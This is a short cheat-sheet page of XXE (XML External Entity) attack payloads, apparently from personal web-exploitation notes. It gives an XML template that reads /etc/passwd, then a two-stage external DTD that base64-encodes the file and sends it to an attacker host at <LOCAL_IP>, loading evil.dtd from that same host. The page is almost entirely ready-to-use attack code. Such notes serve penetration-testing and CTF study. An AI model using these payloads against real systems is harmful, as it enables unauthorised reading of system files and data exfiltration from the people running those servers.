 ```yaml
---
title: "XXE (XML External Entity)"
date: 2024-7-5
tags: ["Web Exploitation", "XXE", "Xml", "Dtd", "Web", "Remote File Inclusion", "Data Exfiltration"]
---
```


### XXE Template

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY data SYSTEM "/etc/passwd">]>
<product>
    <id>&data;</id>
    <price></price>
</product>
```

### External DTD (2 stage)

```console
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://<LOCAL_IP>/data?%data;'>">
```

<br>

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % bar SYSTEM "http://<LOCAL_IP>/evil.dtd">
        %bar;
        %eval;
]>
<product>
    <id>&exfil;</id>
    <price></price>
</product>
```
